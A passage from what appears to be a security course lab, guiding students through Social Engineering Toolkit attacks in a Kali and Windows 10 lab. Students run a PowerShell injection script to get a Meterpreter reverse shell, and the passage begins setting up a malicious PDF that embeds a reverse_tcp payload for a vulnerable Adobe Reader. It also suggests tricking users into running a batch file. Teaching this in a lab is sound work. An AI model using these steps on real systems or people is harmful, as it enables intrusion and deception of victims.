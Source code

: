     ![]({{ "/assets/images/" | relative_url }}){: .img-responsive width='50%'}

4.	Enter your Kali VM IP address and port `443`. Choose `yes` to start the listener. This will automatically open `msfconsole`, so it will take a minute or two.

5.	While waiting, open another terminal and navigate to `/root/.set/reports/powershell/`

6.	From that directory, open the script using the leafpad command:
        
        apt install leafpad     # if necessary
        leafpad x86_powershell_injection.txt
    
    ![]({{ "/assets/images/" | relative_url }}){: .img-responsive width='50%'}
    
7.	Copy the entire script you found on leafpad to the clipboard. On Windows, open a Paste the script on the windows command line as the figure depicts below. Then press enter.
8.  You should see an opened Meterpreter session. Get the session id with `sessions` if you don't already see it, and then interact with that session with `sessions [id]`
9.  **Optional:** you can save the entire script as a windows batch file (.bat), then trick the user to run that file.

<div class='alert alert-info'><strong>Consider: </strong>What ways might you trick a user into running this script?</div>

## <span class='label label-success'>Deliverable</span>

Take a screenshot showing the output of running the following commands from your meterpreter session:
    
    pgrep powershell
    getpid
    shell
    echo "your first and last name"
    date /t

The first command should show the process id related to your malicious powershell script, and the second verifies that you are tied to that process. 
This establishes that you were successful in this exploit.

The last three commands drop you into a windows shell where you can more easily establish your identity.



# Part 4. Social Engineering Toolkit (SET) -- Malicious PDF

This attack presumes that you still have the handler running listening for a connection from a `windows/meterpreter/reverse_tcp` payload, which was launched 
during the fake adobeupdate.exe section.

Download and install a vulnerable version of Adobe Reader to the Windows 10 vm. v9.0 will do -- you can obtain it from [here](ftp://ftp.adobe.com/pub/adobe/reader/win/9.x/9.0/enu/AdbeRdr90_en_US.exe)

1. Launch `setoolkit` if not already launched. From the main menu:
    * `1) Social-Engineering Attacks`
    * `3) Infectious Media Generator`
    * `1) File-Format Exploits`
    * enter kali ip address
    * `13) Adobe PDF Embedded EXE Social Engineering`
    * `2. Use built-in BLANK PDF for attack` (unless you're feelinga adventurous, in which case you can create your own)
    * `2) Windows Meterpreter Reverse_TCP`
    * Accept default for payload listener LHOST
    * Accept default for port to connect back on
    * Let `set` create a listener right now (`yes`)
    